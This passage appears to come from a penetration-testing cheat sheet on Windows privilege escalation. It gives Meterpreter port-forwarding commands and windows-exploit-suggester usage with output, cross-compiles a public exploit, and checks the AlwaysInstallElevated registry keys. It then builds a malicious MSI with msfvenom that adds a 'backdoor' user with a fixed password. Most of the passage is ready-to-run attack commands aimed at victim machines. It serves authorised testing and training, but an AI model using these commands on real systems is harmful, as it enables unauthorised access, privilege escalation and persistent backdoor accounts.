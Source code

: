 ```
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```

#### If powershell is blocked, you can download:

```
https://github.com/Ben0xA/nps
```

Once you know the updates installed, you can find known exploits using windows-exploit-suggester.

```
./windows-exploit-suggester.py -d 2017-02-09-mssb.xls -p ms16-075
[*] initiating winsploit version 3.2…
[*] database file detected as xls or xlsx based on extension
[*] searching all kb’s for bulletin id MS16-075
[+] relevant kbs [‘3164038’, ‘3163018’, ‘3163017’, ‘3161561’]
[*] done
```

{% hint style="warning" %}
In March 2017 Microsoft stopped maintaining the security bulletin search. This means the Windows Exploit Suggester database will not include any vulnerabilities or exploits found after that date. Still, this tool can still be very useful on older systems.
{% endhint %}

#### Compile windows exploit in linux:

```
i686-w64-mingw32-gcc 18176.c -lws2_32 -o 18176.exe
```

#### Compiling python scripts to executables:

```
wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile 18176.py
```

## AlwaysInstallElevated

**AlwaysInstallElevated** is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Check if these 2 registry values are set to "1"reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If they are, create your own malicious msi:

```
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
```

Then use msiexec on victim to execute your msi:
